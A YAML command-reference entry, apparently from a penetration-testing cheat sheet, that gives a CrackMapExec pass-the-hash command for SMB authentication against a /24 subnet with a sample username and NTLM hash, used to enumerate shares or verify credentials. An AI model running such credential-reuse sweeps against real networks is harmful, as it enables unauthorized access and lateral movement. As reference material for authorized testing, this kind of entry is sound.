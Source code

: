 ```yaml
---
description: Use CrackMapExec to perform SMB authentication with NTLM Pass-the-Hash against a subnet, enumerating SMB shares or verifying credentials.

Command Reference:
    Target IP: 10.10.10.1/24
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  crackmapexec smb 10.10.10.1/24 -u john -H 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396

items:
  - Hash

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://www.ired.team/offensive-security/lateral-movement/using-crackmapexec
---
```

